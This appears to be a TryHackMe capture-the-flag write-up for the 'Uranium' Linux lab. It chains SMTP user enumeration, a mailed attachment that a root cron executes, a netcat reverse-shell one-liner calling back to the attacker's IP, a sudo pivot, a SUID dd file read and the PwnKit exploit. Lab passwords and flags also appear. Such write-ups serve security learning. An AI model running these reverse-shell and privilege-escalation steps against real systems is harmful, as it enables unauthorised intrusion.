

<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Hard, **IP:** 10.10.219.112

</div>

<div class="callout callout-abstract">

**Attack Path**

1. **SMTP** user enumeration → valid recipients (`web`, `hakanbey`, …).
2. A hint (Twitter) points to an automated mail handler: a root cron runs `ripmime` on `hakanbey`'s inbox and **executes any attachment named `application*`**. Mail an `application` file containing a reverse shell → shell as `web`.
3. A `.pcap` on disk (found via linpeas) contains the password for `./chat_with_kral4`; run the chat and it hands over **`hakanbey`**'s password (`Mys3cr3tp4sw0rD`).
4. `hakanbey` may `sudo -u kral4 /bin/bash` → **kral4**, who has SUID **`/bin/dd`** → [GTFOBins dd](https://gtfobins.github.io/gtfobins/dd/#suid) to read the web flag.
5. **PwnKit (CVE-2021-4034)** → root.

</div>

## Reconnaissance, SMTP user enum

```console
$ smtp-user-enum -M VRFY -U users.txt -t 10.10.219.112
[+] 10.10.219.112:25   Users found: _apt, backup, bin, daemon, ... web, www-data
```

## Foothold, phishing the mail handler

Root cron on `hakanbey`'s inbox:

```bash
* * * * * ripmime -i /var/mail/hakanbey -d /home/hakanbey/mail_file/ ; \
  find /home/hakanbey/mail_file/ -name "application*" -type f -exec chmod +x {} \; -exec {} \; ; \
  > /var/mail/hakanbey ; rm /home/hakanbey/mail_file/*
```

Send an attachment named `application` holding a reverse shell:

```bash
# application
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.59.97 9001 >/tmp/f
```

```bash
sendemail -f baphomet@abadd0n.xyz -t hakanbey@uranium.thm -s 10.10.219.112 \
  -a application -u "my application" -m "here is my application" -o tls=no
```

→ shell as **web** when the cron fires.

## web → hakanbey (pcap + chat binary)

linpeas finds a `.pcap`; open in Wireshark to recover the password for `chat_with_kral4`:



```console
$ ./chat_with_kral4
PASSWORD :MBMD1vdpjg3kGv6SsIz56VNG
...
kral4: okay your password is Mys3cr3tp4sw0rD don't lose it PLEASE
```

## hakanbey → kral4 → flag (SUID dd)

```console
$ sudo -l
User hakanbey may run the following commands on uranium:
    (kral4) /bin/bash

$ sudo -u kral4 /bin/bash -p
kral4@uranium:~$
```

`kral4` owns SUID `/bin/dd`:

```console
$ ls -l /bin/dd
-rwsr-x--- 1 web kral4 75K Apr 23  2021 /bin/dd

$ dd if=/var/www/html/web_flag.txt
thm{019d332a6a223a98b955c160b3e6750a}
```

## Root, PwnKit

```bash
chmod +x PwnKit && ./PwnKit      # root@uranium
```
